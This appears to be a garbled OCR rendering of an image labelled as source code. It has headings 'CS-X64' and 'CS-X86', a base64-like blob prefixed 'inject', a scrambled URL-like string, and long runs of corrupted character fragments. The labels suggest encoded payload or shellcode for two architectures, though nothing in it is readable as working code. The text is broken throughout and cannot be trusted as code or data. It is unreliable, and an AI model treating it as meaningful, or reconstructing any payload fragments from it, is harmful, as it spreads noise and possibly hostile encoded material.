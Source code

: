 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

najsc45|????2?,R????;6,O;??10,????n;14,???t;18,????c;????22???,t;26?,a????;3??0,??k?;34?,z?;38????,d;4???2,C?;46???,o;5???0,Y;5???4,u;5??8,e;6???2,?o;66??,?G??;7???0?,X?;74???,5;????78,%;???82??,???b?;86,??8?;90,??d;94,???S;98???,L???;1???0????2,6;??10??6,S;???110,v????;114??,a;11?8,u;?1??2????2,I;1???26????,??a;13????0,?,;134??,w;1???38,???F;1?4????2,K;1????46,?d;?1?50,??L;??154,????I;1????58,8???;16????2,E;???166??,m;1???70???,C????;174?,W;17???8,??4????;|?uy?HR???msg??Ointn?ztmt?tELc???w5vt?JHDaO?vYkdB???b???z??sHfd???PzzC???H??foo?g??Bn?Y?tTNuI????zBe?jLS???o?My5GD??rvXYK??o5r????xm%dm????ebz1e????8wDE????drMf????SN?t???zLvKZ????6???Wu???t??SDfw?vvD???P??a??o5t?uAb?wI4????eW???a??dt???n,???Bkfw??UPtFz????xH?K????1??rzdw?OK??LnH?D???I???j????Mx8Nr??bEAIt????m0????Kt???CPM?rW???qp=4=fgwen




ptshc46|2?,J;6,????H???;10,??W;???14???,????9;?18,???O;22,????u;26,???@;30?,????R;3????4,,;??38,n;??42??,g;??46,????v???;50,????T;54??,????t;58,???F;62,?K;66,????B;70,?g;7???4,8;????78,????l;??82,M??;86,??G??;9?0??,o;????9???4,J;???9?8,Z;1????0??2,y;???10??6,????t;??110,???y;114????,???X?;1???18,?m;122?,.??;1???26,d??;13??0,O?;1??34,??C;1?3???8,W;????14????2,%;???146???,o;?1???50???,d????;1???54,d????;158???,y???;16??2,????V?;166,????U;???1????70,???l??;174,????V;17?8,l;1???82,d;???|uyH??Jmsg???Hin???t?Wz????tm???9?tE??LOw?5vuJH??D@????OvY????RdBb?,?sHf??nPzzg????Hfo???vgB??n?Tt???TN???tIzBF????jLSKM????y5BD?r?vgYK??o?8rxm???ld????meM???z1????e?GwDE????orMf???J????Nt?zZvKZ??yW???uttD????fwyvD???PXo5?tmAb??w.4e??Wddtn?OBkfC??UPtW????zxH?%???1r???zowO?KdnH??DdjM???x???yNr?b????VAItU???0LzlH???vs?VgBml?uZ?td????=0teftft
